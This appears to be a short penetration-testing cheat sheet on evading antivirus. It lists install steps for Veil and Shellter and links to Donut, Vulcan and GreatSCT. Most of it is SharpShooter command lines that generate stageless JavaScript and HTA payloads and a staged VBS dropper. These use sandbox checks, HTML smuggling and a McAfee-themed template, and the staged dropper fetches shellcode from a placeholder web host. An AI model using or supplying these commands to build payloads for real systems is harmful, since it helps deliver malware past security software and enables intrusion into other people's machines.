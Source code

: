 # Bypassing AV

### Veil Framework <a id="veil-framework"></a>

Install on Kali:

```text
apt install veil
/usr/share/veil/config/setup.sh --force --silent
```

Reference: [https://github.com/Veil-Framework/Veil](https://github.com/Veil-Framework/Veil)

### Shellter <a id="shellter"></a>

Source: [https://www.shellterproject.com/download/](https://www.shellterproject.com/download/)

```text
apt install shellter
```

### Sharpshooter <a id="sharpshooter"></a>

Javascript Payload Stageless:

```text
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
```

Stageless HTA Payload:

```text
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
```

Staged VBS:

```text
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```

Reference: [https://github.com/mdsecactivebreach/SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)

### Donut <a id="donut"></a>

Source: [https://github.com/TheWover/donut](https://github.com/TheWover/donut)

### Vulcan <a id="vulcan"></a>

Source: [https://github.com/praetorian-code/vulcan](https://github.com/praetorian-code/vulcan)

### GreatSCT

Source: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)




